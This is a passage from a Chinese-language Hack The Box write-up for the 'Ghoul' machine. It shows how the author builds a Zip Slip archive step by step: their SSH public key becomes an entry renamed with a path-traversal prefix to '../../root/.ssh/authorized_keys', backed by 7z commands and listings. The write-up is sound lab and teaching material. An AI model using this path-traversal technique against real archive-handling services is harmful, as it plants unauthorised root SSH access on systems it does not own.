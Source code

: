 然后，我创建了一个 authorized_keys 文件，并将其添加到下载的归档文件中，然后将该文件重命名为 zip-slip.zip 攻击。

重命名文件:

```
root@kali:~/Documents/htb/boxes/ghoul/zipslip# mv ghoul_htb.pub authorized_keys
```

将文件添加到 zip-slip 存档:

```
 root@kali:~/Documents/htb/boxes/ghoul/zipslip# 7z a zip-slip.zip authorized_keys                                                             
<-redacted-> 
```

然后，我检查 zip 文件的内容:

```
root@kali:~/Documents/htb/boxes/ghoul/zipslip# 7z l zip-slip.zipDate      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:42 .....           20           20  ../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../.
./../../../../../../../tmp/evil.txt
2019-10-03 01:25:32 .....          563          459  authorized_keys
2018-04-15 19:04:29 .....           19           19  good.txt
------------------- ----- ------------ ------------  ------------------------
2019-10-03 01:25:32                602          498  3 files
```

我用适当的文件名重命名了归档中的 authorized_keys 文件。

```
root@kali:~/Documents/htb/boxes/ghoul/zip# 7z rn zip-slip.zip authorized_keys '../../../../../../../../../../root/.ssh/authorized_keys'
```

然后，我列出 zip 文件的内容，检查我是否正确地重命名了该文件:

![](img/bcbdb7f11772d48ab337aedc84e6e363.png)

由于一切正常，我上传了 zip 文件:

